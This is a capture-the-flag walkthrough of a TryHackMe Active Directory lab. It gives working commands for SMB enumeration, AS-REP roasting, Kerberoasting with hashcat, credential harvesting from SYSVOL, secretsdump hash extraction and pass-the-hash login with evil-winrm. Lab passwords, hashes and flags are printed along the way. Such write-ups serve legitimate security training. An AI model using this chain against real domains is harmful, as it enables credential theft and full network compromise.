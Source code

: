 # VulnNet:Roasted

IP: 10.10.117.161

## Nmap
```bash
PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2021-11-01 16:13:26Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
49670/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49688/tcp open  msrpc         syn-ack Microsoft Windows RPC
49703/tcp open  msrpc         syn-ack Microsoft Windows RPC
49726/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: WIN-2BO8M1OE1M1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 0s
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 52448/tcp): CLEAN (Timeout)
|   Check 2 (port 20341/tcp): CLEAN (Timeout)
|   Check 3 (port 19742/udp): CLEAN (Timeout)
|   Check 4 (port 22129/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2021-11-01T16:14:20
|_  start_date: N/A

```

## Enum SMB 

- `smbmap -H 10.10.117.161 -u anonymous`
![](https://i.imgur.com/p9lVqUH.png)

- `smbclient -U anonymous -N \\\\10.10.117.161\\VulnNet-Business-Anonymous`

Users found:

Alexa Whitehat - Business Manager
Jack Goldenhand - Business unrelated proposals
Tony Skid - Core security manager
Johnny Leet  - Sync manager

## Enum Usernames

- Anonymous read access to $IPC means we can enumerate usernames: 
- `python3 lookupsid.py anonymous@10.10.117.161`

![](https://i.imgur.com/1TwQt05.png)

### Clean up Usernames in vim

- `:v/User/d` Deleted all occurences that do not have User 
- `:%s/.*\\/\\/` Deleted everything until \
- `Shift + V, Press 16j, type :norm ^x` Deleted all first characters
- `:%normal! WD` Deletes everything after the first occurence of whitespace

```
Guest 
krbtgt 
WIN-2BO8M1OE1M1$ 
enterprise-core-vn 
a-whitehat 
t-skid 
j-goldenhand 
j-leet
```
### Request AS_REP message

- The AS_REP roast attack looks for users without Kerberos pre-authentication required attribute (DONT_REQ_PREAUTH)
- Anyone can send an AS_REQ request to the DC on behalf of any of those users, and receive an AS_REP message which contains a chunk of data encrypted with the original user key, derived from the users password
- Read more: https://book.hacktricks.xyz/windows/active-directory-methodology/asreproast

- Run to get NETPAGE Unlimited Users: 
`sudo python3 /opt/impacket/examples/GetNPUsers.py vulnnet-rst.local/ -usersfile usernames.txt -no-pass -dc-ip 10.10.117.161`
- This script will attempt to list and get TGTs for those users that have the property 'Do not require Kerberos preauthentication' set (UF_DONT_REQUIRE_PREAUTH).

![](https://i.imgur.com/jEus6nL.png)
- Copy hash to hash.txt
- Run `hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt`
- Password: tj072889*

> Login details now - `t-skid:tj072889*`

## Post Compromise attack - Kerberoasting

- Run to get SERVICE PRINCIPAL NAME:
`sudo python3 GetUserSPNs.py vulnnet-rst.local/t-skid:tj072889* -outputfile ~/THM/VulnNet_Roasted/kerberoast.hash -dc-ip 10.10.117.161`
- Crack the hash with hashcat:
`hashcat -m 13100 kerberoast.hash /usr/share/wordlists/rockyou.txt`

Retrieved credential: `enterprice-core-vn:ry=ibfkfv,s6h,`

## Getting a shell

- https://github.com/Hackplayers/evil-winrm
- Usually port 5985 open

- Run:
`evil-winrm -u 'enterprise-core-vn' -p 'ry=ibfkfv,s6h,' -i 10.10.117.161`
- Retrieve flag from Desktop/user.txt: `THM{726b7c0baaac1455d05c827b5561f4ed}`

## Priv-esc
### Enumerate SMB with new credentials:
`smbmap -H 10.10.117.161 -u 'enterprise-core-vn' -p 'ry=ibfkfv,s6h,'`
- READ access on SYSVOL now:
![](https://i.imgur.com/m89fwEv.png)

- Login to share via smbclient:
`smbclient //10.10.117.161/SYSVOL --user=enterprise-core-vn%ry=ibfkfv,s6h,`

- In the scripts directory, we see a ResetPassword.vbs script with the following credentials for a-whitehat
![](https://i.imgur.com/jDUsC3I.png)

a-whitehat:bNdKVkjv3RR9ht

### Back to Enumerating SMB with new credentials
`smbmap -H 10.10.117.161 -u 'a-whitehat' -p 'bNdKVkjv3RR9ht'`
- Got write access on ADMIN$:
![](https://i.imgur.com/zcx81fB.png)

- Since this user has write access to smb, we can run secretsdump.py to dump hashes of user 
`sudo python3 secretsdump.py vulnnet-rst/a-whitehat:bNdKVkjv3RR9ht@10.10.117.161`


![](https://i.imgur.com/2WUtWmA.png)
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

- Attempt to login with evil-winrm with the hash:
`evil-winrm -u 'administrator' -H 'c2597747aa5e43022a3a3049a3c3b09d' -i 10.10.117.161`

- cd into Desktop and run:
`type system.txt`
`THM{16f45e3934293a57645f8d7bf71d8d4c}`
